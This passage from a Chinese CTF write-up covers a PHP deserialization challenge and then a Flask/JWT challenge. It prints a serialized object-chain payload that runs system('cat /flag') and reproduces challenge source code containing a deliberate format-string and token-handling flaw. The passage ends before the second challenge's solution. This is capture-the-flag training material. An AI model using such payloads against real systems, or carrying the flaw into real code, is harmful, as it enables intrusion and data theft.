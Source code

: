 ```php
$a = new entrance($s);
echo serialize($a);
```

得到序列化后的结果 ：`O:8:"entrance":1:{s:5:"start";O:11:"springboard":1:{s:6:"middle";O:4:"evil":1:{s:3:"end";s:20:"system('cat /flag');";}}}`

最终取得flag：

![](https://i.loli.net/2021/09/24/jlzvO5bMwC68ZWr.png)

### (7)地狱通信???

实际上比 改 简单，但有时间限制，看以下题解就行了

### <font color='red'>(8)地狱通信—改</font>

> 实际上地狱通信比这个简单，但有时间限制，这题做出来地狱通信也就没有问题了

```php
from flask import Flask, render_template, request, session, redirect, make_response
from secret import secret, headers, User
import datetime
import jwt

app = Flask(__name__)


@app.route("/", methods=['GET', 'POST'])
def index():
    f = open("app.py", "r")
    ctx = f.read()
    f.close()
    res = make_response(ctx)
    name = request.args.get('name') or ''
    if 'admin' in name or name == '':
        return res
    payload = {
        "name": name,
    }
    token = jwt.encode(payload, secret, algorithm='HS256', headers=headers)
    res.set_cookie('token', token)
    return res


@app.route('/hello', methods=['GET', 'POST'])
def hello():
    token = request.cookies.get('token')
    if not token:
        return redirect('/', 302)
    try:
        name = jwt.decode(token, secret, algorithms=['HS256'])['name']
    except jwt.exceptions.InvalidSignatureError as e:
        return "Invalid token"
    if name != "admin":
        user = User(name)
        flag = request.args.get('flag') or ''
        message = "Hello {0}, your flag is" + flag
        return message.format(user)
    else:
        return render_template('flag.html', name=name)


if __name__ == "__main__":
    app.run()
```